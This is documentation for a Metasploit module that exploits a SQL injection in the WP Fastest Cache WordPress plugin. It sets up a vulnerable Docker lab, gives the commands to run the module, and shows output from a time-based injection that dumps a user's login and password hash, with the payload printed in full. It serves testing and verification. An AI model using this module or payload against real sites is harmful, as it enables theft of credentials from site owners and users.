 ## Vulnerable Application

The vulnerability affects the **WP Fastest Cache** plugin, version **1.2.2** and below, allowing SQL injection via a multipart form.

### Pre-requisites:
   - **Docker** and **Docker Compose** installed on your system.

### Setup Instructions:

1. **Download the Docker Compose file**:
   - Here is the content of the **docker-compose.yml** file to set up
   WordPress with the vulnerable WP Fastest Cache plugin and a MySQL database.

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

2. **Start the Docker environment**:
   - In the directory where you saved the `docker-compose.yml` file, run the following command to start the services:

```bash
docker-compose up -d
```

3. **Install WP Fastest Cache Plugin**:
   - Download the vulnerable version of WP Fastest Cache:

```bash
wget https://downloads.wordpress.org/plugin/wp-fastest-cache.1.2.1.zip
```

   - Install the plugin in your running WordPress instance:
     - Extract the plugin files and copy them to your WordPress container:

```bash
unzip wp-fastest-cache.1.2.1.zip
docker cp wp-fastest-cache wordpress:/var/www/html/wp-content/plugins/
```

   - Navigate to `http://localhost:5555/wp-admin` in your browser and activate the **WP Fastest Cache** plugin in the WordPress admin panel.

4. **Enable Permalinks and Caching**:
   - Go to `Settings > Permalinks` in the WordPress dashboard and set permalinks to **Post name**.
   - Activate the caching feature in the WP Fastest Cache settings.

## Verification Steps

1. **Set up WordPress** with the vulnerable **WP Fastest Cache 1.2.1** plugin.
2. **Start Metasploit** using the command `msfconsole`.
3. Use the correct module for the vulnerability:

```bash
   use auxiliary/scanner/http/wp_fastest_cache_sqli
```

4. Set the target's IP and URI:

```bash
   set RHOST <target_ip>
   set TARGETURI /
```

5. **Run the module**:

```bash
   run
```

6. **Verify the SQL Injection**:
   - After running the module, the SQL injection payload will attempt to retrieve or manipulate data from the WordPress database.

## Options

### COUNT
This option specifies the number of rows to retrieve from the database during the SQL injection attack.
For example, setting `COUNT` to 5 will retrieve 5 rows from the `wp_users` table.

## Scenarios

The following scenario demonstrates an SQL injection attack against a WordPress
installation running **WP Fastest Cache <= 1.2.1** on a Docker environment with MySQL.

### Step-by-step Scenario

```bash
msf auxiliary(scanner/http/wp_fastest_cache_sqli) > run http://127.0.0.1:5555

[*] Performing SQL injection via the 'wordpress_logged_in' cookie...
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(chQnW) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) chQnW from wp_users limit 1) hsbomFD)
[*] {SQLi} Encoded to (select group_concat(chQnW) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xe4,0)),ifnull(user_pass,repeat(0x57,0))) as binary) chQnW from wp_users limit 1) hsbomFD)
[*] {SQLi} Time-based injection: expecting output of length 44
[+] Dumped table contents:
wp_users
========

 user_login  user_pass
 ----------  ---------
 chocapikk   $P$BPdY0XccQT2nvSXE8bjsn1CERoF7eJ.

[+] Loot saved to: /home/chocapikk/.msf4/loot/20240919001325_default_127.0.0.1_wordpress.users_514832.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
